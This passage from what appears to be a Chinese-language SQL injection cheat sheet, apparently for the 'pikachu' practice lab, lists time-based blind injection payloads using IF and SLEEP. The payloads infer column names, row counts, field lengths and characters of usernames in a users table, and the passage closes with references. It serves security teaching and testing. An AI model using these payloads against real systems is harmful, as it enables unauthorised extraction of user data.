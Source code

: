 判断当前数据库中指定数据表中第一个字段名的第一个字符

```
' AND  IF(ASCII (SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1), 1, 1)) = 105, SLEEP(3), 1) -- 
```

### 8.5. Dump

判断指定数据库中指定数据表中指定字段中数据的个数

```
' AND IF((SELECT COUNT(*) FROM pikachu.users) = 3, SLEEP(3), 1) -- 
```

判断当前数据库中指定数据表中指定字段中数据的个数

```
' AND IF((SELECT COUNT(*) FROM users) = 3, SLEEP(3), 1) -- 
```

判断指定数据库中指定数据表中第一个字段中第一个数据的字节长度

```
' AND IF((SELECT LENGTH(username) FROM pikachu.users LIMIT 0, 1) = 5, SLEEP(3), 1) -- 
```

判断当前数据库中指定数据表中第一个字段中第一个数据的字节长度

```
' AND IF((SELECT LENGTH(username) FROM users LIMIT 0, 1) = 5, SLEEP(3), 1) -- 
```

判断指定数据库中指定数据表中第一个字段中第一个数据的第一个字符

```
' AND IF(ASCII (SUBSTR((SELECT username FROM pikachu.users LIMIT 0, 1), 1, 1)) = 97, SLEEP(3), 1) -- 
```

判断当前数据库中指定数据表中第一个字段中第一个数据的第一个字符

```
' AND IF(ASCII (SUBSTR((SELECT username FROM users LIMIT 0, 1), 1, 1)) = 97, SLEEP(3), 1) -- 
```

---

References

- [SQL injection](https://portswigger.net/web-security/sql-injection)
- [SQL Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/)
